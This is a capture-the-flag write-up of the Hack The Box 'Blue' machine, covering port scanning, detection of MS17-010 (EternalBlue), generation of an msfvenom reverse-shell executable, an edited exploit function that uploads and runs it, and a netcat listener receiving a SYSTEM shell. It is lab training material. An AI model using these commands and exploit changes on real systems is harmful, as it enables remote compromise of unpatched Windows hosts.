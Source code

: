 ```yaml
---
permalink: /posts/HTB/Blue
title:  "HTB Blue"
author: Luc Kolen
description: "Blue is an easy Windows machine on HTB"
categories:
  - CTF
  - HTB
tags:
  - HTB
  - SMB
  - MS17-010
---
```

# 10.10.10.40 - Blue

- [10.10.10.40 - Blue](#10101040---blue)
  - [Open ports](#open-ports)
  - [SMB Vulnerability](#smb-vulnerability)
    - [Changing the exploit script](#changing-the-exploit-script)
  - [TL;DR](#tldr)

## Open ports

```bash
luc@kali:~/Documents/Cyber-security/HTB/Forest$ nmap -vv --reason -Pn -A --osscan-guess --version-all -p- 10.10.10.40
```

|Port|Service|
|---|---|
tcp/135|msrpc
tcp/139|netbios-ssn
tcp/445|microsoft-ds
tcp/49152|msrpc
tcp/49153|msrpc
tcp/49154|msrpc
tcp/49155|msrpc
tcp/49156|msrpc
tcp/49157|msrpc

## SMB Vulnerability

```bash
luc@kali:~/Documents/Cyber-security/HTB/Blue$ sudo nmap --script=*smb-vuln* -p139,445 10.10.10.40
Starting Nmap 7.80 ( https://nmap.org ) at 2020-06-10 15:59 CEST
Nmap scan report for 10.10.10.40
Host is up (0.013s latency).

PORT    STATE SERVICE
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds

Host script results:
|_smb-vuln-ms10-054: false
|_smb-vuln-ms10-061: NT_STATUS_OBJECT_NAME_NOT_FOUND
| smb-vuln-ms17-010:
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|
|     Disclosure date: 2017-03-14
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
|       https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
|_      https://technet.microsoft.com/en-us/library/security/ms17-010.aspx

Nmap done: 1 IP address (1 host up) scanned in 13.36 seconds
```

This machine is vulnerable to `MS17-010` (also known as `EternalBlue`).

### Changing the exploit script

[Exploit-db 42315](https://www.exploit-db.com/exploits/42315) is a Python script that will exploit MS17-010. We do need to make some changes to it.

This script needs an username and password that can connect to SMB.

```bash
luc@kali:~/Documents/Cyber-security/HTB/Blue$ smbmap -u guest -H 10.10.10.40
[+] IP: 10.10.10.40:445 Name: 10.10.10.40
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        ADMIN$                                                  NO ACCESS       Remote Admin
        C$                                                      NO ACCESS       Default share
        IPC$                                                    NO ACCESS       Remote IPC
        Share                                                   READ ONLY
        Users                                                   READ ONLY
```

Guest access is allowed so we can use those credentials.

```python
USERNAME = 'guest'
PASSWORD = ''
```

We'll need a payload to be executed, for this we'll use `MSFvenom` to generate a Windows executable.

```bash
luc@kali:~/Documents/Cyber-security/HTB/Blue$ msfvenom -p windows/shell_reverse_tcp -f exe LHOST=10.10.14.16 LPORT=443 > shell.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 324 bytes
Final size of exe file: 73802 bytes
```

The default payload that will be executed is defined in the `smb_pwn` function.

```python
def smb_pwn(conn, arch):
    smbConn = conn.get_smbconnection()

    print('creating file c:\\pwned.txt on the target')
    tid2 = smbConn.connectTree('C$')
    fid2 = smbConn.createFile(tid2, '/pwned.txt')
    smbConn.closeFile(tid2, fid2)
    smbConn.disconnectTree(tid2)
```

We'll update this payload to make it upload our executable and run it.

```python
def smb_pwn(conn, arch):
        smbConn = conn.get_smbconnection()
        smb_send_file(smbConn, r'/home/luc/Documents/Cyber-security/HTB/Blue/shell.exe', 'C', '/shell.exe')
        service_exec(conn, r'cmd /c c://shell.exe')
```

```bash
luc@kali:~/Documents/Cyber-security/HTB/Blue$ python 42315.py 10.10.10.40
Target OS: Windows 7 Professional 7601 Service Pack 1
Using named pipe: samr
Target is 64 bit
Got frag size: 0x10
GROOM_POOL_SIZE: 0x5030
BRIDE_TRANS_SIZE: 0xfa0
CONNECTION: 0xfffffa80039e4670
SESSION: 0xfffff8a0022246a0
FLINK: 0xfffff8a008379048
InParam: 0xfffff8a0027d315c
MID: 0xd02
unexpected alignment, diff: 0x5ba5048
leak failed... try again
CONNECTION: 0xfffffa80039e4670
SESSION: 0xfffff8a0022246a0
FLINK: 0xfffff8a0027e5088
InParam: 0xfffff8a0027df15c
MID: 0xd07
success controlling groom transaction
modify trans1 struct for arbitrary read/write
make this SMB session to be SYSTEM
overwriting session security context
Opening SVCManager on 10.10.10.40.....
Creating service LgbE.....
Starting service LgbE.....
The NETBIOS connection with the remote host timed out.
Removing service LgbE.....
ServiceExec Error on: 10.10.10.40
nca_s_proto_error
Done
```

```bash
luc@kali:~/Documents/Cyber-security/HTB/Blue$ sudo nc -lnvp 443
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.10.10.40.
Ncat: Connection from 10.10.10.40:49164.
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>whoami
nt authority\system
C:\Windows\system32>cd ../../Users/Administrator/Desktop
C:\Users\Administrator\Desktop>type root.txt
ff548eb7************************
C:\Users\Administrator\Desktop>cd ../../haris/Desktop
C:\Users\haris\Desktop>type user.txt
4c546aea************************
```

## TL;DR

- Machine is vulnerable to MS17-010, using this exploit gives nt authority\system access
